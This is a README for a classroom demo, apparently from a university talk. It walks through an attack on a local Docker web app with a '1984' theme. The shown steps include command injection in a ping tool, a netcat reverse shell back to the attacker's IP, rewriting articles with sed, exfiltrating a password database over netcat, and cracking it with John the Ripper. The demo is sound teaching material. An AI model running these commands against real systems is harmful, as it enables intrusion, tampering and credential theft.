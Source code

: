 # 1984 Hacked
## Anatomy of a Cyberattack

This project is the companion demonstration for a talk I gave at Columbia University. Follow the steps
below perform the demonstration at your own pace.

These instructions were initially created and verified on macOS. Support for additional operating systems
is added via the author's own memory. Please open an issue or PR if you encounter a mistake.

## Required Software
1. [Docker](https://docs.docker.com/desktop/install/mac-install/)
2. [John The Ripper](https://formulae.brew.sh/formula/john)


## Initial Setup
1. Clone this project. `git clone https://github.com/jonmannn/1984-hacked.git`
2. Navigate into the project folder. `cd 1984-hacked`
2. Clear your existing John The Ripper data. `rm ~/.john/john.pot` (This makes repeat demonstrations possible)
3. Build the Docker container. `docker build . -t 1984-hacked`
4. Run the Docker container. `docker run -it -p 8888:8888 1984-hacked`

## Demonstration
### Exploitation
1. Navigate to the target webpage in a web browser. `http://127.0.0.1:8888`
2. Login with the stolen credentials:
```
Username: winston.smith@newspeakprinting.com
Password: Julia1984!
```
3. Test the ping tool using an arbitrary IP address like `1.1.1.1` (Cloudflare) or `8.8.8.8` ( Google). ![](assets/ping.png)
4. Perform command injection. `1.1.1.1 && whoami` ![](assets/command-injection.png)

### Installation
1. Open the terminal app
2. Start a netcat listener `nc -v -l 4444`
3. Send a shell from the exploited webserver `1.1.1.1 &&nc <your-ip-address> 4444 -e /bin/bash -vvv`
   ![](assets/netcat-png.png)
(Note: You won't receive feedback from your Netcat listener, after waiting a few moments you can test a simple command like `ls` to ensure you can execute commands.)

### Command and Control
1. With your new access, look around the directory structure. You should
discover that there is a script to print newspapers at `/apps/print_newspaper.py` and that it prints files stored
in `/readyForPressing/`
![](assets/print_newspaper.png)
2. This can be weaponized by modifying the contents of one of the articles stored in `/readyForPressing/`
3. For example, we can replace the adversary name with `Eastasia` in the article titled `Eurasia's Intentions Exposed` with `sed -i ‘s/Eurasia/Eastasia/g’ Front_Page.txt`

### Act On Objectives
1. Locate password database in `/web_auth/users.db`
2. In a new terminal window, open a Netcat listener that writes to a file `nc -v -l 5555 > users.db`
3. In the initial terminal window, upload the file to our new Netcat listener  ![](assets/upload.png)
4. Wait a few moments, as you won't receive any feedback. But since this is a small text file, it shouldn't take more than a few seconds. Then press CTRL + C to exit the Netcat listener.
5. Validate your download on the new terminal window with `cat users.db`
![](assets/users-db-validate.png)
6. Now, we can use John the Ripper to try and crack the passwords. We'll be trying all of the password combinations in the provided wordlist (`wordlist.txt`) in the repository.
7. Run John the Ripper `john --wordlist=path/to/wordlist.txt --format=bcrypt users.db`
![](assets/cracked.png)
